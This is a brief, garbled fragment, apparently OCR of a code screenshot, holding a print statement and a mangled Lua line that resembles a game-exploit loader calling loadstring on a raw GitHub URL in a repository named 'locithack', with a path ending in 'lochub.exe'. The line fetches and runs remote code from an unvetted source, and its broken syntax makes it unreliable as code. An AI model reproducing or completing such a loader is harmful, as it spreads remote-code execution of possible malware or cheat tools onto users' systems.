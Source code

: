 print("hello, world!")
if namelocloadstring(game:https://raw.githubusercontent.com/locithack/nahiwin/luac.out
/loc/refs/heads/main/lochub.exe
